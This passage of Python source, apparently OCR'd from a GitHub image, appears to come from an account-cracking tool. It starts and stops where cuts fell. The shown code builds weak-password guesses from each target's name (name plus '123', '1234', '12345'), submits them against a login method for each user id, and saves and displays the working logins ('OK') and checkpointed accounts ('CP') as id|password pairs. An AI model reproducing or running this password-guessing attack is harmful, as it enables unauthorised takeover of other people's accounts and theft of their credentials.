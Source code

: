                            pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                       else:
                           pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+xz[1]]
                       kirim.submit(self.__metode__,url,uid,pwx)
                   except:pass
            hasil(ok,cp)
            
def result():
	print(f'[1]. Your OK result ')
	print(f'[2]. Your CP Results ')
	print('[3]. Return	')
	kz = input(f'\n<\> Pilih : ')
	if kz in ['2']:
		try:vin = os.listdir('CP')
		except FileNotFoundError:
			print('>> File Not Found ')
			time.sleep(3)
			file()
		if len(vin)==0:
			print('>> You Have No CP Results ')
			time.sleep(2)
			back()
		else:
			cih = 0
			lol = {}
			for isi in vin:
				try:hem = open('CP/'+isi,'r').readlines()
				except:continue
				cih+=1
				if cih<10:
					nom = ''+str(cih)
					lol.update({str(cih):str(isi)})
					lol.update({nom:str(isi)})
					print(f'>> %s. %s ( %s Idz )'%(nom,isi,len(hem)))
				else:
					lol.update({str(cih):str(isi)})
					print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]')
			geeh = input('\n>> Pilih : ')
			try:geh = lol[geeh]
			except KeyError:
				print('➩ Choose the Right Cock ')
				back()
			try:lin = open('CP/'+geh,'r').read().splitlines()
			except:
				print('➩ File Not Found ')
				time.sleep(2)
				back()
			nocp=0
			for cpku in range(len(lin)):
				cpkuni=lin[nocp].split('|')
				print(f'➩ {cpkuni[0]}|{cpkuni[1]}')
				nocp +=1
			print('')
			input(f'[ Click Enter ]')
			file()
	elif kz in ['1']:
		try:vin = os.listdir('OK')
		except FileNotFoundError:
			print('➩ File Not Found ')
			time.sleep(2)
			back()
		if len(vin)==0:
			print('➩You Dont Have The File OK  ')
			time.sleep(2)